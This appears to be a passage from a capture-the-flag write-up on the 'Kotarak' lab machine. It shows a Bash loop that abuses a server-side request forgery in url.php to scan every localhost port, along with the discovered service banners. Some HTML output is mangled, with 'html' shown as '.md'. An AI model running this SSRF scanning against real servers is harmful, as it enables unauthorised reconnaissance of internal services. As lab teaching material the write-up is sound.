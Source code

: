 

Looking at port 10 (unlikely to be listening), there's an empty
response:



    oxdf@parrot$ curl http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A10



#### Loop

I can create a Bash loop to check all 65535 ports for responses:



    for i in {0..65535}; do 
      res=$(curl -s http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A${i});
      len=$(echo $res | wc -w); 
      if [ "$len" -gt "0" ]; then
        echo -n "${i}: "; 
        echo $res | tr -d "\r" | head -1 | cut -c-100; 
      fi;
    done



This will loop over the numbers 0 to 65535. For each, it will submit
`http://127.0.0.1:${i}` to the Kotarak browser, where `${i}` is the Bash
variable. It will store the result in `$res`. It gets the length of
`$res`, and if that's longer than 0, it prints `${i}` and the first line
of `$res` up to 100 characters.

Running this got through about 1000 ports per minute, so it got through
the first 1000 ports pretty quickly, but the entire loop takes a while.
I can start enumerating the lower ports right away, but I let it run to
completion because this box already had a service hidden at tcp 60000
(and I had to step away from the computer for a bit anyway).



    oxdf@parrot$ time for i in {1..65535}; do res=$(curl -s http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A${i}); len=$(echo $res | wc -w); if [ "$len" -gt "0" ]; then echo -n "${i}: "; echo $res | tr -d "\r" | head -1 | cut -c-100; fi; done
    22: SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2 Protocol mismatch.
    90: <!DOCTYPE> .md> <head> <title>Under Construction</title> </head> <bodyd> <p>This page is under con
    110: .md> <head> <title> favorites / bookmark title goes here </title> </head> <body bgcolor="white" te
    200: <b>Hello world!</b>
    320: <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR.md4/strict.dtd">.md> <he
    888: .md xmlns="http://www.w3.org/1999/.md" xml:lang="en"> <head> <meta http-equiv="content
    -bash: warning: command substitution: ignored null byte in input
    3306: 5.7.19-0ubuntu0.16.04.1 %t&Jz/a,X?JFLymysql_native_passwordot packets out of order
    8080: <!DOCTYPE.md>.md><head><title>Apache Tomcat/8.5.5 - Error report</title><style type="text/css">H
    60000: <!DOCTYPE.md> .md> <head> <style> div.container { width: 100%; border: 1px solid gray; } header,
